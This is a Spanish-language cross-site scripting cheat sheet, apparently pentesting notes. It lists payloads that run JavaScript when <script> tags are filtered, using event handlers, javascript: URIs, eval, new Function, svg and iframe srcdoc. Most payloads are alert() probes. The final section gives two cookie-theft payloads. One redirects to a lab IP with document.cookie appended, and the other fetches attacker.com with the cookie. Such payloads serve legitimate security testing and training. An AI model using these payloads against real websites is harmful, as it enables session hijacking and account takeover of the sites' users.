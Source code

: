 ### Alternativas a `<script>`

Si `<script>` está filtrado, podemos intentar ejecutar Javascript de otros modos

-  **Eventos en elementos HTML**
	```html
	<img src="x" onerror="alert('XSS!')">
	
	<div onmouseover="alert('XSS!')">Pasa el ratóǹ aquí</div>
	
	<button onclick="alert('XSS!')">Haz clic aquí</button>
	
	<body onload="alert('XSS!')">
	```
-  **Usar `setTimeout()` para ejecutar código sin `<script>`**
	```html
	<a href="javascript:setTimeout(()=>{alert('XSS')}, 1000)">Haz clic</a>
	```
-  **Usar `eval()` si está permitido**
	```html
	<a href="javascript:eval('alert(1)')">Ejecutar XSS</a>
	```
-  **Usar `new Function()` en lugar de `eval()`**
	```html
	<script>new Function("alert('XSS!')")();</script>
	```
-  **Usar `<svg>` con `onload`**
	```html
	<svg onload="alert('XSS!')"></svg>
	```
-  **Usar `<math>` con `onmouseover` (Para algunos navegadores)**
	```html
	<math href="javascript:alert('XSS!')" xlink:href="javascript:alert('XSS!')"></math>
	```

-  **Usar `<iframe>` con `srcdoc`**
	```html
	<iframe srcdoc="<script>alert('XSS!')</script>"></iframe>
	```
### Métodos Especiales para Bypass de Bloqueos
Si el sitio bloquea los métodos anteriores, podemos probar algunos enfoques como los que siguen:
-  **Ejecutar código después de un tiempo (`setTimeout` y `setInterval`)**
	```html
	<script>setTimeout(()=>{alert("XSS!")}, 2000);</script>
	<script>setInterval(()=>{alert("XSS!")}, 5000);</script>
	```
-  **Ejecutar código usando `location.href`**
	```html
	# redirige automáticamente a la página dada
	<script>window.location='http://10.10.14.108/com/?xss='+document.cookie;</script>
	```
-  **Exfiltrar datos usando `fetch()`**
	```html
	<script>fetch("http://attacker.com/log?xss="+document.cookie);</script>
	```
